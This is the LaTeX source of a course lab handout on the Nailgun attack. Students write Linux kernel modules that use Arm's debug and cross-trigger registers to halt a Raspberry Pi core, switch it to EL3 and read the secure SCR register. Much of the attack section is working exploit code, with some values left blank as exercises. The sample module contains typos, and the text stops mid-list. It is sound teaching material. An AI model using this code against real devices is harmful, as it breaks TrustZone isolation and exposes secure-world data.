\documentclass[11pt]{article}

\usepackage[most]{tcolorbox}
\usepackage{times}
\usepackage{epsf}
\usepackage{epsfig}
\usepackage{amsmath, alltt, amssymb, xspace}
\usepackage{wrapfig}
\usepackage{fancyhdr}
\usepackage{url}
\usepackage{verbatim}
\usepackage{fancyvrb}
\usepackage{adjustbox}
\usepackage{listings}
\usepackage{color}

\usepackage{subfigure}
\usepackage{cite}

\usepackage{sidecap}
\usepackage{pifont}
\usepackage{mdframed}
\usepackage{textcomp}






%\usepackage{cases}
%\usepackage{ltexpprt}
%\usepackage{verbatim}

%\topmargin      -0.70in  % distance to headers
%\headheight     0.2in   % height of header box
%\headsep        0.4in   % distance to top line
%\footskip       0.3in   % distance from bottom line

% Horizontal alignment
\topmargin      -0.50in  % distance to headers
\oddsidemargin  0.0in
\evensidemargin 0.0in
\textwidth      6.5in
\textheight     8.9in 


%\centerfigcaptionstrue

%\def\baselinestretch{0.95}


\newcommand\discuss[1]{\{\textbf{Discuss:} \textit{#1}\}}
%\newcommand\todo[1]{\vspace{0.1in}\{\textbf{Todo:} \textit{#1}\}\vspace{0.1in}}
\newtheorem{problem}{Problem}[section]
%\newtheorem{theorem}{Theorem}
%\newtheorem{fact}{Fact}
\newtheorem{define}{Definition}[section]
%\newtheorem{analysis}{Analysis}
\newcommand\vspacenoindent{\vspace{0.1in} \noindent}

%\newenvironment{proof}{\noindent {\bf Proof}.}{\hspace*{\fill}~\mbox{\rule[0pt]{1.3ex}{1.3ex}}}
%\newcommand\todo[1]{\vspace{0.1in}\{\textbf{Todo:} \textit{#1}\}\vspace{0.1in}}

%\newcommand\reducespace{\vspace{-0.1in}}
% reduce the space between lines
%\def\baselinestretch{0.95}

\newcommand{\fixmefn}[1]{ \footnote{\sf\ \ \fbox{FIXME} #1} }
\newcommand{\todo}[1]{
\vspace{0.1in}
\fbox{\parbox{6in}{TODO: #1}}
\vspace{0.1in}
}
\newcommand{\mynote}[1]{
\vspace{0.1in}
\fbox{\parbox{6.5in}{#1}}
\vspace{0.1in}
}

\newcommand{\mybox}[1]{
\vspace{0.2in}
\noindent
\fbox{\parbox{6.5in}{#1}}
\vspace{0.1in}
}


\newcounter{question}
\setcounter{question}{1}

\newcommand{\myquestion} {{\vspace{0.1in} \noindent \bf Question \arabic{question}:} \addtocounter{question}{1} \,}

\newcommand{\myproblem} {{\noindent \bf Problem \arabic{question}:} \addtocounter{question}{1} \,}


\newcommand{\copyrightnoticeA}[1]{
\vspace{0.1in}
\fbox{\parbox{6in}{\small Copyright \copyright\ 2006 - 2015\ \ Wenliang Du, Syracuse University.\\ 
      The development of this document is partially funded by 
      the National Science Foundation's Course, Curriculum, and Laboratory 
      Improvement (CCLI) program under Award No. 0618680 and 0231122. 
      Permission is granted to copy, distribute and/or modify this document
      under the terms of the GNU Free Documentation License, Version 1.2
      or any later version published by the Free Software Foundation.
      A copy of the license can be found at http://www.gnu.org/licenses/fdl.html.}}
\vspace{0.1in}
}


\newcommand{\copyrightnoticeOLD}[1]{
\vspace{0.1in}
\fbox{\parbox{6in}{\small Copyright \copyright\ 2006 - 2014\ \ Wenliang Du, Syracuse University.\\
      The development of this document is/was funded by three grants from
      the US National Science Foundation: Awards No. 0231122 and 0618680 from
      TUES/CCLI and  Award No. 1017771 from Trustworthy Computing.
      Permission is granted to copy, distribute and/or modify this document
      under the terms of the GNU Free Documentation License, Version 1.2
      or any later version published by the Free Software Foundation.
      A copy of the license can be found at http://www.gnu.org/licenses/fdl.html.}}
\vspace{0.1in}
}

\newcommand{\copyrightnoticeC}[1]{
\vspace{0.1in}
\fbox{\parbox{6in}{\small Copyright \copyright\ 2006 - 2016\ \ Wenliang Du, Syracuse University.\\
      The development of this document is/was funded by the following grants from
      the US National Science Foundation: No. 0231122, 0618680, and 1303306.
      Permission is granted to copy, distribute and/or modify this document
      under the terms of the GNU Free Documentation License, Version 1.2
      or any later version published by the Free Software Foundation.
      A copy of the license can be found at http://www.gnu.org/licenses/fdl.html.}}
\vspace{0.1in}
}

\newcommand{\copyrightnotice}[1]{
\vspace{0.1in}
\fbox{\parbox{6in}{\small Copyright \copyright\ 2006 - 2016\ \ Wenliang Du, Syracuse University.\\
      The development of this document was partially funded by
      the National Science Foundation under Award No. 1303306 and 1318814.
      This work is licensed under a Creative Commons
      Attribution-NonCommercial-ShareAlike 4.0 International License.
      A human-readable summary of (and not a substitute for) the
      license is the following: You are free to copy and redistribute the
      material in any medium or format. You must give appropriate credit.
      If you remix, transform, or build upon the material, you must
      distribute your contributions under the same license as the original.
      You may not use the material for commercial purposes.}}
\vspace{0.1in}
}


\newcommand{\copyrightnoticenew}[1]{
\vspace{0.1in}
\fbox{\parbox{6in}{\small Copyright \copyright\ 2016\ \ Wenliang Du, Syracuse University.\\
      The development of this document was partially funded by
      the National Science Foundation under Award No. 1303306 and 1318814.
      This work is licensed under a Creative Commons
      Attribution-NonCommercial-ShareAlike 4.0 International License.
      A human-readable summary of (and not a substitute for) the
      license is the following: You are free to copy and redistribute the
      material in any medium or format. You must give appropriate credit.
      If you remix, transform, or build upon the material, you must
      distribute your contributions under the same license as the original.
      You may not use the material for commercial purposes.}}
\vspace{0.1in}
}

\newcommand{\copyrightnoticenewA}[1]{
\vspace{0.1in}
\fbox{\parbox{6in}{\small Copyright \copyright\ 2017\ \ Wenliang Du, Syracuse University.\\
      The development of this document was partially funded by
      the National Science Foundation under Award No. 1303306 and 1718086.
      This work is licensed under a Creative Commons
      Attribution-NonCommercial-ShareAlike 4.0 International License.
      A human-readable summary of (and not a substitute for) the
      license is the following: You are free to copy and redistribute the
      material in any medium or format. You must give appropriate credit.
      If you remix, transform, or build upon the material, you must
      distribute your contributions under the same license as the original.
      You may not use the material for commercial purposes.}}
\vspace{0.1in}
}


\newcommand{\nocopyrightnotice}[1]{
\vspace{0.1in}
\fbox{\parbox{6in}{\small  
      The development of this document is funded by 
      the National Science Foundation's Course, Curriculum, and Laboratory 
      Improvement (CCLI) program under Award No. 0618680 and 0231122. 
      Permission is granted to copy, distribute and/or modify this document.
      }}
\vspace{0.1in}
}

\newcommand{\idea}[1]{
\vspace{0.1in}
{\sf IDEA:\ \ \fbox{\parbox{5in}{#1}}}
\vspace{0.1in}
}

\newcommand{\questionblock}[1]{
\vspace{0.1in}
\fbox{\parbox{6in}{#1}}
\vspace{0.1in}
}


\newcommand{\minix}{{\tt Minix}\xspace}
\newcommand{\unix}{{\tt Unix}\xspace}
\newcommand{\linux}{{\tt Linux}\xspace}
\newcommand{\ubuntu}{{\tt Ubuntu}\xspace}
\newcommand{\selinux}{{\tt SELinux}\xspace}
\newcommand{\freebsd}{{\tt FreeBSD}\xspace}
\newcommand{\solaris}{{\tt Solaris}\xspace}
\newcommand{\windowsnt}{{\tt Windows NT}\xspace}
\newcommand{\setuid}{{\tt Set-UID}\xspace}
%\newcommand{\smx}{{\tt Smx}\xspace}
\newcommand{\smx}{{\tt Minix}\xspace}
\newcommand{\relay}{{\tt relay}\xspace}
\newcommand{\isys}{{\tt iSYS}\xspace}
\newcommand{\ilan}{{\tt iLAN}\xspace}
\newcommand{\iSYS}{{\tt iSYS}\xspace}
\newcommand{\iLAN}{{\tt iLAN}\xspace}
\newcommand{\iLANs}{{\tt iLAN}s\xspace}
\newcommand{\bochs}{{\tt Bochs}\xspace}
\newcommand{\openssl} {\texttt{openssl}}


\newcommand\FF{{\mathcal{F}}}

\newcommand{\argmax}[1]{
\begin{minipage}[t]{1.25cm}\parskip-1ex\begin{center}
argmax
#1
\end{center}\end{minipage}
\;
}

\newcommand{\bm}{\boldmath}
\newcommand  {\bx}    {\mbox{\boldmath $x$}}
\newcommand  {\by}    {\mbox{\boldmath $y$}}
\newcommand  {\br}    {\mbox{\boldmath $r$}}


%\pagestyle{fancyplain}
%\lhead[\thepage]{\thesection}      % Note the different brackets!
%\rhead[\thesection]{SEED Laboratories}
%\lfoot[\fancyplain{}{}]{Syracuse University} 
%\cfoot[\fancyplain{}{}]{\thepage} 

\newcommand{\tstamp}{\today}   
%\lhead[\fancyplain{}{\thepage}]         {\fancyplain{}{\rightmark}}
%\chead[\fancyplain{}{}]                 {\fancyplain{}{}}
%\rhead[\fancyplain{}{\rightmark}]       {\fancyplain{}{\thepage}}
%\lfoot[\fancyplain{}{}]                 {\fancyplain{\tstamp}{\tstamp}}
%\cfoot[\fancyplain{\thepage}{}]         {\fancyplain{\thepage}{}}
%\rfoot[\fancyplain{\tstamp} {\tstamp}]  {\fancyplain{}{}}

\pagestyle{fancy}
%\lhead{\bfseries Computer Security Course Project}
\lhead{\bfseries SEED Labs}
\chead{}
\rhead{\small \thepage}
\lfoot{}
\cfoot{}
\rfoot{}


\definecolor{dkgreen}{rgb}{0,0.6,0}
\definecolor{gray}{rgb}{0.5,0.5,0.5}
\definecolor{mauve}{rgb}{0.58,0,0.82}
\definecolor{lightgray}{gray}{0.90}

% Old setting
\begin{comment}
%\lstset{frame=tb,
  language=C,
  aboveskip=3mm,
  belowskip=3mm,
  showstringspaces=false,
  columns=flexible,
  basicstyle={\small\ttfamily},
  numbers=none,
  numberstyle=\tiny\color{gray},
  keywordstyle=\color{blue},
  commentstyle=\color{dkgreen},
  stringstyle=\color{mauve},
  breaklines=true,
  breakatwhitespace=true,
  tabsize=3
}
\end{comment}


\lstset{%
  frame=none,
  language=,
  backgroundcolor=\color{lightgray},
  aboveskip=3mm,
  belowskip=3mm,
  showstringspaces=false,
%  columns=flexible,
  basicstyle={\small\ttfamily},
  numbers=none,
  numberstyle=\tiny\color{gray},
  keywordstyle=\color{blue},
  commentstyle=\color{dkgreen},
  stringstyle=\color{mauve},
  breaklines=true,
  breakatwhitespace=true,
  tabsize=3,
  columns=fullflexible,
  keepspaces=true,
  escapeinside={(*@}{@*)}
}






\newcommand{\Figs}{Figs/Dirty_COW}
\graphicspath{ {./figure/} }

\lhead{\bfseries CS315 Labs -- Nailgun Attack Lab}

\def \code#1 {\fbox{\scriptsize{\texttt{#1}}}}

\begin{document}

\begin{center}
{\LARGE Nailgun Attack Lab}
\end{center}

% \copyrightnoticenewA

% *******************************************
% SECTION
% ******************************************* 
\section{Lab Overview}

Nailgun Attack by pass the privilege isolation on Arm via debug mechanism. The attack can take effect on most devices whose architecture is Armv8a or Armv7a. Root privilege is essential in Nailgun Attack.

% The Dirty COW vulnerability is an interesting case of the race condition
% vulnerability. It existed in the \linux kernel since September 2007, and was
% discovered and exploited in October 2016. The vulnerability affects all
% \linux-based operating systems, including Android, and its consequence is very
% severe: attackers can gain the root privilege by exploiting the vulnerability.
% The vulnerability resides in the code of copy-on-write inside \linux kernel.
% By exploiting this vulnerability, attackers can modify any protected file,
% even though these files are only readable to them. The companion book of the
% SEED labs, \textit{Computer Security: A Hands-on Approach} by Wenliang Du, has
% a detailed explanation on this vulnerability~(Chapter 8). 

The objective of this lab is for student to gains the hands-on experience on
Nailgun Attack. We prepare Raspberry Pi 3 Model B+ as the target, who owns a 64-bit Armv8a SoC. However, the lab instruction is base on AArch32 (32-bit OS). In this lab, you may look up some materials frequently to get some help, for example, Arm Reference Manual. As we introduced on lecture, Arm has several exception level in each state. And you should be clear which mode processors be in.

% The objective of this lab is for students to gain the hands-on experience on
% the Dirty COW attack, understand the race condition vulnerability exploited by
% the attack, and gain a deeper understanding of the general race condition
% security problems. In this lab, students will exploit the Dirty COW race
% condition vulnerability to gain the root privilege.  


% \paragraph{Note:} This lab is based on the SEEDUbuntu12.04 VM. If you are
% currently using a newer \linux version, such as Ubuntu16.04, the vulnerability
% has already been patched. You can download the SEEDUbuntu12.04 VM from the
% SEED web site. If you have an Amazon EC2 account, you can find our VM from the
% ``Community AMIs''. The name of the VM is \texttt{SEEDUbuntu12.04-Generic}. It
% should be noted that Amazon's site says that this is a 64-bit VM; that is
% incorrect. The VM is 32-bit. However, this incorrect information does not
% cause any problem.

\section{Before the Task}

The lab has prepared devices for every student in the course. It includes a Raspberry Pi 3 model B+, a TF card with a corresponding USB connector, a power supply, and serial cables. Register in teaching assistants to get your devices. Before the task, we need to set up and connect the Raspberry Pi.

\subsection{Restore the Raspberry Pi}

In lab resources folder, we prepare the Raspberry Pi image for the Nailgun lab. To flash the image to the TF card, you can check this tutorial: \url{https://www.ncnynl.com/archives/201607/232.html}

\subsection{Connect the Raspberry Pi}
You can choose any way you like to connect your Raspberry Pi. If you already know how to access your pi, you can skip this section. In this lab, we provide a USB to TTL converter and connect the Raspberry Pi with this converter.

\begin{figure}[h]
  \centering
  
\includegraphics[scale=.50]{GPIO.jpg}
  \caption{GPIO port of the Raspberry Pi B+}
  \label{fig:GPIO}
\end{figure}

Fig~\ref{fig:GPIO} shows the GPIO port of the Raspberry Pi B+. Notice that port 6, 8, 10 is used for GND, TXD and RXD separately. The converter also has pins for the same purpose. We firstly connect those pins with cables. The relationship is GND to GND, TXD to RXD, and RXD to TXD. After that, power your Raspberry Pi and plug the converter to your laptop. Install the CH340 driver in lab resources if your computer does not find the device. For those guys who use mac, you can ask for help on Internet. After you find your device in Windows device manager, download and install putty from \url{https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html}, and create a new serial session. Here is the setting of session: Serial line is your device(normally COMX, X is a number. Check it in your Windows device manager); Speed is 115200; Connect type is Serial.
%Fig~\ref{fig:session} is an example.
When you finish that, click open and login your Raspberry Pi with username pi and password raspberry. 

% \begin{figure}[h]
%   \centering
%   
\includegraphics[scale=.90]{session.png}
%   \caption{An example of creating session}
%   \label{fig:session}
% \end{figure}

% *******************************************
% Remove the simple_module and merge the directly_read.c
% 
% \section{Read a High Privilege Register}
\section{Lab Tasks}

The objective of this task is to understand the Linux kernel module and apply Nailgun Attack to read a system register with EL3 permission. For
preparation, you need to install two packages, build-essential and
raspberrypi-kernel-headers. If you use our Linux Image, you can skip this step.

\begin{lstlisting}
$ sudo apt install build-essential raspberrypi-kernel-headers
\end{lstlisting}

\subsection{Task 1: Create and Install a Kernel Module}

A Loadable Kernel Module (LKM) is an object file that contains code to extend
the running kernel of an operating system. We can write our own LKM and install
it to the kernel dynamically. To write a kernel module, we must register the
init function and exit function. 
% In the init function we try to retrieve the current exception level from CPSR register and print it to the system log. 
% And then we directly read the SCR register and print it.
In the exit function we print a string to inform ourselves that the module is removed successfully.

The keyword asm gives the ability to embed assembly language source code within a C program. If you know little about this, you can make a visit to \url{https://www.ic.unicamp.br/~celio/mc404-s2-2015/docs/Arm-GCC-Inline-Assembler-Cookbook.pdf} for more help.

% explain the asm.

\begin{lstlisting}
  /* simple_module.c */
  
  #include <linux/module.h>    // included for all kernel modules
  #include <linux/kernel.h>    // included for KERN_INFO
  #include <linux/init.h>      // included for __init and __exit macros
  #include <asm/io.h>
  
  /*
   * The init function of the module.
   */
  static int __init simple_module_init(void)
  {
    uint32_t reg;
    printk("Hello world.\n", reg);
    return 0;
  }
  
  /*
   * The cleanup function of the module.
   */
  static int __exit simple_module_exit(void)
  {
    prink(KERN_INFO "Exit.\n");
  }
  
  module_init(simple_module_init);
  module_exit(simple_module_exit);

\end{lstlisting}

Building the kernel module is different from building user space applications. In this lab, we use Makefile, a powerful tool for compiling, to build our LKM. Create a file named Makefile in the same directly. Here is the content of the Makefile for compiling a module named simple\_module.c

\begin{lstlisting}
obj-m += simple_module.o

all:
  make -C /lib/modules/$(shell uname -r)/build M=$(PWD) modules

clean:
  make -C /lib/modules/$(shell uname -r)/build M=$(PWD) clean
\end{lstlisting}

Then we build and run the kernel module. 

\begin{lstlisting}
$ ls
simple_moduel.c Makefile
$ make
$ dmesg
$ sudo insmod simple_module.ko
$ dmesg
$ sudo rmmod simple_module
\end{lstlisting}

% After install the kernel module, you can discover the new message
% "Hello world from EL1.?" in system log. That is because the kernel mode is
% actually running in exception level 1.

Check what is new to the system log
using command dmesg. Try to answer following questions:

\textbf{Task 1:} Question: What is the exception level and the security state of the core with loaded LKM?

For more about kernel module programing and compiling, you can check this page:
\url{https://sysprog21.github.io/lkmpg/}.

\subsection{Task 2: Directly Access a High Privilege Register: SCR}

The Secure Configuration Register (SCR) is a register to configure properties of the Secure State. Normally it is only accessible in Secure privileged mode. You can check the details of the register in Arm Architecture Reference Manual Armv8-A. You need to look up Arm Reference Manual in the resource folder for detail information about this register. Since the amount of the pages is huge, I do not suggest you read the entire book.

% Base on simple\_module.c, we access SCR. In the init function we try to rsead the SCR via assembly code.

In this task, we try to directly read SCR. Luckily, the Arm Reference Manual clearly describes how to access SCR. In the section \textbf{Accessing SCR}, an instruction is introduced to directly access SCR. However, the following instruction is not complete. 

\textbf{Task 2.a:} What is the complete instruction? Look up the manual and fill the instruction bellow. Then compile and execute.

\begin{lstlisting}
/* simple_module.c */
...

static int __init simple_module_init(void)
{
  uint32_t reg;
  asm volatile("mrc p15, 0, %0, c1, <fill here>, <fill here>":"=r"(reg));
  printk(KERN_INFO "SCR %x.\n", reg);
  return 0;
}

...
\end{lstlisting}

A segmentation fault occurs when you install this kernel module. If you check the log using dmesg command, you will find out the reason of the segmentation fault is because of invalided access. 
% That's because the running LKM has the same privilege of the OS kernel, non-secure EL1, while normally SCR is only accessible in secure state.

\textbf{Task 2.b:} Question: why the segmentation fault occurs?

\subsection{Task 3: Read the Debug Authentication Signal}

Next we will implement Nailgun Attack. To make sure Nailgun Attack is feasible on the target, we need to confirm the state of the debug authentication signal. In this task, you should write your own kernel module to check out the debug authentication signal by following several steps.

In Armv8a AArch32, the information of the signal is stored in DBGAUTHSTATUS, Debug Authentication Status register. Similar to task 2, you need to look up Arm Reference Manual in the resource folder for detail information about this register. When you find the pages, you may know how to access DBGAUTHSTATUS in \textbf{Accessing DBGAUTHSTATUS}.

\textbf{Task 3.a:} Question: What is the instruction to read DBGAUTHSTATUS? Suppose we want to store it in Rt.

\textbf{Task 3.b:} Take single\_module.c as an example, write your kernel module to read the signal. A screenshot of the result is needed, and tell us what you get from the result.

\subsection{Task 4: Enable the Halting Debug}

Now we start the journey to break TrustZone isolation. The debug component and Cross-Trigger Interface (CTI) are hardware modules supporting external debug. Each core will have a group of debug component and CTI. Normally we manipulate the component by writing its registers. The first step is to enable the debug and CTI functionality. You need to complete step 1.

We should unlock External Debug Lock Access Register (EDLAR). Look up Arm Reference Manual to find the detail explanation about manipulating it. Then unlock the OS Lock by controlling OS Lock Access Register (OSLAR).

% It is a tedious and boring work to find the base address of debug and CTI component on each device. And we provide it in raspberrypi 3 b+. We create a function called read\_scr and make our job.

\begin{lstlisting}
/* nailgun.c */

#include <linux/module.h>    // included for all kernel modules
#include <linux/kernel.h>    // included for KERN_INFO
#include <linux/init.h>      // included for __init and __exit macros
#include <asm/io.h>
#include <linux/slab.h>

// 0x40030000 is the base address of the debug registers on Core 0
#define DEBUG_REGISTER_ADDR             0x40030000
#define DEBUG_REGISTER_SIZE             0x1000

// 0x40038000 is the base address of the cross trigger interface registers on Core 0
#define CTI_REGISTER_ADDR               0x40038000
#define CTI_REGISTER_SIZE               0x1000

#define EDLAR_OFFSET                    ?
#define OSLAR_OFFSET                    ?

// The struct nailgun_param is used to store the parameter.
struct nailgun_param {
    void __iomem *debug_register;
    void __iomem *cti_register;
} t_param;

static void read_scr(void *addr) {
  uint32_t reg, r0_old, dlr_old, scr;
  struct nailgun_param *param = (struct nailgun_param *)addr;

  // Step 1: Unlock debug and cross trigger reigsters
  printk(KERN_INFO "Step 1: Unlock debug and cross trigger registers\n");
  iowrite32(?, param->debug_register + EDLAR_OFFSET);
  iowrite32(?, param->cti_register + EDLAR_OFFSET);
  iowrite32(?, param->debug_register + OSLAR_OFFSET);
  iowrite32(?, param->cti_register + OSLAR_OFFSET);

  ......
}

static int __init nailgun_init(void) {
  struct nailgun_param *param = kmalloc(sizeof(t_param), GFP_KERNEL);
  
  // Mapping the debug and cross trigger registers into virtual memory space 
  param->debug_register = ioremap(DEBUG_REGISTER_ADDR, DEBUG_REGISTER_SIZE);
  param->cti_register = ioremap(CTI_REGISTER_ADDR, CTI_REGISTER_SIZE);
  // We use the Core 1 to read the SCR via debugging Core 0
  smp_call_function_single(1, read_scr, param, 1);
  iounmap(param->cti_register);
  iounmap(param->debug_register);

  kfree(param);
  return 0;
}

static void __exit nailgun_exit(void) {
  printk(KERN_INFO "Goodbye!\n");
}

module_init(nailgun_init);
module_exit(nailgun_exit);

\end{lstlisting}

\subsection{Halt the Processor}

\begin{lstlisting}
/* nailgun.c */

// Offsets of debug registers
#define DBGDTRRX_OFFSET                 0x80
#define EDITR_OFFSET                    0x84
#define EDSCR_OFFSET                    0x88
#define DBGDTRTX_OFFSET                 0x8C
#define EDRCR_OFFSET                    0x90
#define OSLAR_OFFSET                    0x300
#define EDLAR_OFFSET                    0xFB0

// Bits in EDSCR
#define STATUS                          (0x3f)
#define ERR                             (1 <<  6)
#define HDE				(1 << 14)
#define ITE                             (1 << 24)

// Offsets of cross trigger registers
#define CTICONTROL_OFFSET               0x0
#define CTIINTACK_OFFSET                0x10
#define CTIAPPPULSE_OFFSET              0x1C
#define CTIOUTEN0_OFFSET                0xA0
#define CTIOUTEN1_OFFSET                0xA4
#define CTITRIGOUTSTATUS_OFFSET         0x134
#define CTIGATE_OFFSET                  0x140

// Bits in CTICONTROL
#define GLBEN                           (1 <<  0)

// Bits in CTIINTACK
#define ACK0                            (1 <<  0)
#define ACK1                            (1 <<  1)

// Bits in CTIAPPPULSE
#define APPPULSE0                       (1 <<  0)
#define APPPULSE1                       (1 <<  1)

// Bits in CTIOUTEN<n>
#define OUTEN0                          (1 <<  0)
#define OUTEN1                          (1 <<  1)

// Bits in CTITRIGOUTSTATUS
#define TROUT0                          (1 <<  0)
#define TROUT1                          (1 <<  1)

// Bits in CTIGATE
#define GATE0                           (1 <<  0)
#define GATE1                           (1 <<  1)

// Values of EDSCR.STATUS
#define NON_DEBUG                       0x2
#define HLT_BY_DEBUG_REQUEST            0x13

static void read_scr(void *addr) {
  ......

  // Step 2: Enable halting debug on the target processor
  printk(KERN_INFO "Step 2: Enable halting debug\n");
  reg = ioread32(param->debug_register + EDSCR_OFFSET);
  reg |= HDE;
  iowrite32(reg, param->debug_register + EDSCR_OFFSET);

  // Step 3: Send halt request to the target processor
  printk(KERN_INFO "Step 3: Halt the target processor\n");
  iowrite32(GLBEN, param->cti_register + CTICONTROL_OFFSET);
  reg = ioread32(param->cti_register + CTIGATE_OFFSET);
  reg &= ~GATE0;
  iowrite32(reg, param->cti_register + CTIGATE_OFFSET);
  reg = ioread32(param->cti_register + CTIOUTEN0_OFFSET);
  reg |= OUTEN0;
  iowrite32(reg, param->cti_register + CTIOUTEN0_OFFSET);
  reg = ioread32(param->cti_register + CTIAPPPULSE_OFFSET);
  reg |= APPPULSE0;
  iowrite32(reg, param->cti_register + CTIAPPPULSE_OFFSET);

  // Step 4: Wait the target processor to halt
  printk(KERN_INFO "Step 4: Wait the target processor to halt\n");
  reg = ioread32(param->debug_register + EDSCR_OFFSET);
  while ((reg & STATUS) != HLT_BY_DEBUG_REQUEST) {
      reg = ioread32(param->debug_register + EDSCR_OFFSET);
  }
  reg = ioread32(param->cti_register + CTIINTACK_OFFSET);
  reg |= ACK0;
  iowrite32(reg, param->cti_register + CTIINTACK_OFFSET);
  reg = ioread32(param->cti_register + CTITRIGOUTSTATUS_OFFSET);
  while ((reg & TROUT0) == TROUT0) {
      reg = ioread32(param->cti_register + CTITRIGOUTSTATUS_OFFSET);
  }

  .......
}
......
\end{lstlisting}

\subsection{Task 5: Switch to the EL3 and read the SCR}

After the preparation, it comes to the most exciting part of Nailgun Attack. In this task you need to complete Step 7 to read SCR by following several tasks.

\textbf{Task 5.a}: We mention how to access SCR directly in Task 2. You need to prepare an instruction, who reads SCR and store it to R1. Then convert it to machine code (do it on yourself) and execute it on the target.

\textbf{Task 5.b}: After you finish Task 5.a, you need to transfer the value in R1 on core 0, to the local variable \textbf{scr}. It will be printed later. DBGDTRTXint and DBGDTRTX would be helpful in your implementation.

\begin{lstlisting}
/* nailgun.c */

// Bits in EDRCR
#define CSE                             (1 <<  2)

// Transfer the instruction to the halting target and then execute it on the halting target
static void execute_ins_via_itr(void __iomem *debug, uint32_t ins) {
    uint32_t reg;
    // clear previous errors 
    iowrite32(CSE, debug + EDRCR_OFFSET);

    // Write instruction to EDITR register to execute it
    iowrite32(ins, debug + EDITR_OFFSET);

    // Wait until the execution is finished
    reg = ioread32(debug + EDSCR_OFFSET);
    while ((reg & ITE) != ITE) {
        reg = ioread32(debug + EDSCR_OFFSET);
    }

    if ((reg & ERR) == ERR) {
        printk(KERN_ERR "%s failed! instruction: 0x%08x EDSCR: 0x%08x\n", 
            __func__, ins, reg);  
    }
}

static uint32_t save_register(void __iomem *debug, uint32_t ins) {
    // Execute the ins to copy the target register to R0
    execute_ins_via_itr(debug, ins);
    // Copy R0 to the DCC register DBGDTRTX
    // 0xee000e15 <=> mcr p14, 0, R0, c0, c5, 0
    execute_ins_via_itr(debug, 0x0e15ee00);
    // Read the DBGDTRTX via the memory mapped interface
    return ioread32(debug + DBGDTRTX_OFFSET);
}

static void read_scr(void *addr) {
  ......

  // Step 5: Save context of the target core
  printk(KERN_INFO "Step 5: Save context\n");
  // 0xee000e15 <=> mcr p14, 0, R0, c0, c5, 0
  execute_ins_via_itr(param->debug_register, 0x0e15ee00);
  r0_old = ioread32(param->debug_register + DBGDTRTX_OFFSET);
  // 0xee740f35 <=> mrc p15, 3, R0, c4, c5, 1
  dlr_old = save_register(param->debug_register, 0x0f35ee74);

  // Step 6: Switch to EL3 to access secure resource
  printk(KERN_INFO "Step 6: Switch to EL3\n");
  // 0xf78f8003 <=> dcps3
  execute_ins_via_itr(param->debug_register, 0x8003f78f);

  // Step 7: Read the SCR
  printk(KERN_INFO "Step 7: Read SCR\n");
  % ....
  % scr = ....

  .......
}
......

\end{lstlisting}
\subsection{Task 6: Restore the Context and Exit.}

\begin{lstlisting}
/* nailgun.c */

static void restore_register(void __iomem *debug, uint32_t ins, uint32_t val) {
    // Copy value to the DBGDTRRX via the memory mapped interface
    iowrite32(val, debug + DBGDTRRX_OFFSET);
    // Copy the DCC register DBGDTRRX to R0
    // 0xee100e15 <=> mrc p14, 0, R0, c0, c5, 0
    execute_ins_via_itr(debug, 0x0e15ee10);
    // Execute the ins to copy R0 to the target register
    execute_ins_via_itr(debug, ins);
}

static void read_scr(void *addr) {
  ......

  // Step 8: Restore context
  printk(KERN_INFO "Step 8: Restore context\n");
  // 0x0f35ee64 <=> mcr p15, 3, R0, c4, c5, 1
  restore_register(param->debug_register, 0x0f35ee64, dlr_old);
  iowrite32(r0_old, param->debug_register + DBGDTRRX_OFFSET);
  // 0xee100e15 <=> mrc p14, 0, R0, c0, c5, 0
  execute_ins_via_itr(param->debug_register, 0x0e15ee10);

  // Step 9: Send restart request to the target processor
  printk(KERN_INFO "Step 9: Send restart request to the target processor\n");
  reg = ioread32(param->cti_register + CTIGATE_OFFSET);
  reg &= ~GATE1;
  iowrite32(reg, param->cti_register + CTIGATE_OFFSET);
  reg = ioread32(param->cti_register + CTIOUTEN1_OFFSET);
  reg |= OUTEN1;
  iowrite32(reg, param->cti_register + CTIOUTEN1_OFFSET);
  reg = ioread32(param->cti_register + CTIAPPPULSE_OFFSET);
  reg |= APPPULSE1;
  iowrite32(reg, param->cti_register + CTIAPPPULSE_OFFSET);

  // Step 10: Wait the target processor to restart
  printk(KERN_INFO "Step 10: Wait the target processor to restart\n");
  reg = ioread32(param->debug_register + EDSCR_OFFSET);
   while ((reg & STATUS) != NON_DEBUG) {
      reg = ioread32(param->debug_register + EDSCR_OFFSET);
  }
  reg = ioread32(param->cti_register + CTIINTACK_OFFSET);
  reg |= ACK1;
  iowrite32(reg, param->cti_register + CTIINTACK_OFFSET);
  reg = ioread32(param->cti_register + CTITRIGOUTSTATUS_OFFSET);
  while ((reg & TROUT1) == TROUT1) {
      reg = ioread32(param->cti_register + CTITRIGOUTSTATUS_OFFSET);
  }

  printk(KERN_INFO "All done! The value of SCR is 0x%08x\n", scr);
}
......
\end{lstlisting}

Build and run nailgun.ko, and see what happen. Explain the value of SCR. 

% \section{Bonus}

% Read another register which can be accessed only in EL3. You can check the Arm Reference Manual in search for that. Note that the lab is based on 32-bit operating system.

\section{Submission}
You need to submit a detailed lab report, with screenshots, to describe what you have done and what you have observed. You also need to provide explanation to the observations that are interesting or surprising. Please also list the important code snippets (if any) followed by explanation. Simply attaching code without any explanation will not receive credits.

In your report, you should also contain the answer to following questions:
\begin{enumerate}
